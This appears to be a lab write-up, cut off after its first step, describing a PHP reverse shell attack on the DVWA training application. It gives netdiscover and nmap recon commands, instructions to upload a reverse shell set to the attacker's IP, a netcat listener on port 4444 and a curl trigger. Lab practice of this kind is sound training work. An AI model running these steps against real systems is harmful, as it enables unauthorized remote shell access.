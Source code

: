 # PHP Reverse Shell Attack - Mohammad

## Program

DVWA vulnerable web application; PHP reverse shell payload; netcat for listener on KALI.

## Command

- Reconnaissance: Identify network hosts  
   Command: `sudo netdiscover -r 192.168.1.0/24`
- Target fingerprinting: Scan open ports and services on DVWA host  
   Command: `nmap -sV <TARGET_IP>`
- Payload creation: Use the provided webshell (php-revers-shell.php) from KALI.  
  Note: Copy the file php-revers-shell.php, modify the target machine and set your KALI IP, then upload it to DVWA.
- Listener set on KALI: Wait for incoming connection  
   Command: `nc -lvp 4444`
- Trigger payload: Access the PHP file via browser or using curl  
   Command: `curl http://<TARGET_IP>/upload/shell.php`

## Example

- netdiscover output sample:
  ```
  Currently scanning: 192.168.1.0/24   |   Screen View: Unique Hosts
  2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120
  _________________________________________________________________________
     IP            At MAC Address      Count     Len  MAC Vendor / Hostname
  192.168.1.101   00:0c:29:xx:xx:xx    2         120  VMware, Inc.
  10.30.0.235   00:50:56:xx:xx:xx    1         60   VMware, Inc.
  ```

## Target

- DVWA host (e.g., 10.30.0.235)

## Objective

- Gain remote shell access via PHP reverse shell exploiting DVWA file upload vulnerability.

## Type of Attack

- PHP Reverse Shell exploitation

## Attack steps and screenshots

1. **Reconnaissance**
   - Use netdiscover to enumerate hosts on the network (see netdiscover command above and sample output).
   - Identify potential target IPs from the network scan.
2. **DVWA Discovery**
